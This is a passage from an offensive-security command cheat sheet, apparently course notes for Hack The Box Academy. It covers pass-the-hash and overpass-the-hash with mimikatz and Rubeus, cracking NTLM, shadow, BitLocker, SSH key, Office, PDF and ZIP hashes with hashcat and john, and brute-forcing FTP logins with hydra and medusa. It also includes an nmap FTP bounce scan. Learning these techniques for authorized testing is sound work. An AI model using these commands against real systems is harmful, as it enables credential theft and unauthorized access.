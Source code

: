 | `sekurlsa::pth /domain:inlanefreight.htb /user:plaintext /ntlm:3f74aa8f08f712f09cd5177b5c1ce50f` | |
| Rubeus - Pass the Key or OverPass the Hash | |
| `Rubeus.exe  asktgt /domain:inlanefreight.htb /user:plaintext /aes256:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60 /nowrap` | |
| [Pass the ticket from windows](https://academy.hackthebox.com/module/147/section/1639) | [Pass The ticket from linux](https://academy.hackthebox.com/module/147/section/1657) |

### Cracking Passwords

| **Command**| **Description**|
|-|-|
| `hashcat -m 1000 dumpedhashes.txt /usr/share/wordlists/rockyou.txt` | Uses Hashcat to crack NTLM hashes using a specified wordlist. |
| `hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt --show` | Uses Hashcat to attempt to crack a single NTLM hash and display the results in the terminal output. |
| `unshadow /tmp/passwd.bak /tmp/shadow.bak > /tmp/unshadowed.hashes` | Uses unshadow to combine data from passwd.bak and shadow.bk into one single file to prepare for cracking. |
| `hashcat -m 1800 -a 0 /tmp/unshadowed.hashes rockyou.txt -o /tmp/unshadowed.cracked` | Uses Hashcat in conjunction with a wordlist to crack the unshadowed hashes and outputs the cracked hashes to a file called unshadowed.cracked. |
| ` hashcat -m 500 -a 0 md5-hashes.list rockyou.txt`           | Uses Hashcat in conjunction with a word list to crack the md5 hashes in the md5-hashes.list file. |
| `hashcat -m 22100 backup.hash /opt/useful/seclists/Passwords/Leaked-Databases/rockyou.txt -o backup.cracked` | Uses Hashcat to crack the extracted BitLocker hashes using a wordlist and outputs the cracked hashes into a file called backup.cracked. |
| `ssh2john.pl SSH.private > ssh.hash`         | Runs Ssh2john.pl script to generate hashes for the SSH keys in the SSH.private file, then redirects the hashes to a file called ssh.hash. |
| `john ssh.hash --show`                                       | Uses John to attempt to crack the hashes in the ssh.hash file, then outputs the results in the terminal. |
| `office2john.py Protected.docx > protected-docx.hash`        | Runs Office2john.py against a protected .docx file and converts it to a hash stored in a file called protected-docx.hash. |
| `john --wordlist=rockyou.txt protected-docx.hash`            | Uses John in conjunction with the wordlist rockyou.txt to crack the hash protected-docx.hash. |
| `pdf2john.pl PDF.pdf > pdf.hash`                       | Runs Pdf2john.pl script to convert a pdf file to a pdf has to be cracked. |
| `john --wordlist=rockyou.txt pdf.hash`                       | Runs John in conjunction with a wordlist to crack a pdf hash. |
| `zip2john ZIP.zip > zip.hash`                                | Runs Zip2john against a zip file to generate a hash, then adds that hash to a file called zip.hash. |
| `john --wordlist=rockyou.txt zip.hash`                       | Uses John in conjunction with a wordlist to crack the hashes contained in zip.hash. |
| `bitlocker2john -i Backup.vhd > backup.hashes`               | Uses Bitlocker2john script to extract hashes from a VHD file and directs the output to a file called backup.hashes. |
| `file GZIP.gzip`                                             | Uses the Linux-based file tool to gather file format information. |
| `for i in $(cat rockyou.txt);do openssl enc -aes-256-cbc -d -in GZIP.gzip -k $i 2>/dev/null \| tar xz;done` | Script that runs a for-loop to extract files from an archive. |

---

# Attacking Common Services

### Attacking FTP

|**Command**|**Description**|
|-|-|
| `ftp 192.168.2.142` | Connecting to the FTP server using the `ftp` client. |
| `nc -v 192.168.2.142 21` | Connecting to the FTP server using `netcat`. |
| `hydra -l user1 -P /usr/share/wordlists/rockyou.txt ftp://192.168.2.142` | Brute-forcing the FTP service. |
| `medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp` | Brute Forcing with Medusa |
| `nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2` | The Nmap -b flag can be used to perform an FTP bounce attack |
